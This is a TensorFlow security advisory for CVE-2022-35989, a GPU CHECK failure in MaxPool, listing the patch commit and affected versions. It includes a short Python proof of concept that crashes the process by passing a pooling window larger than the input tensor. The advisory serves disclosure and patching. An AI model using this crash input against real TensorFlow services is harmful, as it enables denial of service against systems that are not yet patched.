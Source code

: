 ## TFSA-2022-120: `CHECK` fail in `MaxPool`

### CVE Number
CVE-2022-35989

### Impact
When `MaxPool` receives a window size input array `ksize` with dimensions greater than its input tensor `input`, the GPU kernel gives a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np

input = np.ones([1, 1, 1, 1])
ksize = [1, 1, 2, 2]
strides = [1, 1, 1, 1]
padding = 'VALID'
data_format = 'NCHW'

tf.raw_ops.MaxPool(input=input, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [32d7bd3defd134f21a4e344c8dfd40099aaf6b18](https://github.com/tensorflow/tensorflow/commit/32d7bd3defd134f21a4e344c8dfd40099aaf6b18).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.

